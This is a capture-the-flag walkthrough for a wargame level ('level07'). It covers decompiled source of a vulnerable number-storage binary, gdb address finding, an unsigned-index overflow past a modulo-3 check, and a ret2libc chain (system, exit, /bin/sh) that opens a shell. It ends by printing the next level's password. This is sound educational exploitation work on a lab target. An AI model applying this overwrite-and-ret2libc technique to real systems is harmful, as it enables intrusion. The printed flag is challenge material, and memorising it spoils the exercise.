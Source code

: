 # Level07

## Setup

We find a binary file at the root of the user **`level07`** named *`./level07`*.

```bash
scp -r -P 4242 level07@<vm_ip>:/home/users/level07/level07 .
```

### Hex-Rays

We used the Hex-Rays output on the [Dogbolt website](https://dogbolt.org/).


## Source

	int data[100];
	...
	while ( 1 ) {
		...
    	fgets(s, 20, stdin);
		if ( !memcmp(s, "store", 5u) ) {
			number = store_number(*data);
			...
		}
		if ( !memcmp(s, "read", 4u) ) {
			number = read_number(*data);
			...
		}
		if ( !memcmp(s, "quit", 4u) ) {
			return 0;
		}
		...
	}

store_number:
	
	int store_number(int data) {
		unsigned int number;
		unsigned int index;
		...
		number = get_unum();
		...
		index = get_unum();
		if ( index == 3 * (index / 3) || (number >> 24) == 183 ) {
			...
			return 1;
		}
		else {
			*(int *)(data + index * 4) = number;
			return 0;
		}
	}

So, we can write any unsigned int at any index of our array that isn't dividable by 3 \
After some tests we know we want to overwrite the address that eip points to as it is in the stack

## gdb
	> b main
	> b read_number (or store_number)
	> r
	> info frame
	...
	...eip at 0xffffd70c
	...
	> read
	> i r $eax (our array's address as it is the first and only argument of read_number())
	eax	0xffffd544

`eip` = 0xffffd70c \
`array` = 0xffffd544 \
eip - array = 456 \
456 / 4 = 114 (We divide by 4 because 1 index of our array is 4 bytes)

so `eip = array[114]` \
BUT 114 % 3 == 0, So we can't write as it is a wil's reserved space \
But the array's index access is done by: `array_address + (index * 4)` \
And the wil's reserved space is made before \
The index is an unsigned int, we'll make a full value overflow (0x100000000) and 456 so the index becomes 114 after the *4\
so `(0x100000000 + 456) / 4 = 1073741938` \
By writing at the index 1073741938 we actually write at the index 114, so we overwrite the address eip points to

We retrieve the addresses of: \
`system`	: 0xf7e6aed0, in decimal: `4159090384` \
`exit`	: 0xf7e5eb70, in decimal: `4159040368` \
`/bin/sh`	: 0xf7f897ec, in decimal: `4160264172`

## Solution:
	> ./level07
	> store
	> 4159090384
	> 1073741938
	> store
	> 4159040368
	> 115
	> store
	> 4160264172
	> 116
	> quit
	> cat /home/users/level08/.pass
	7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC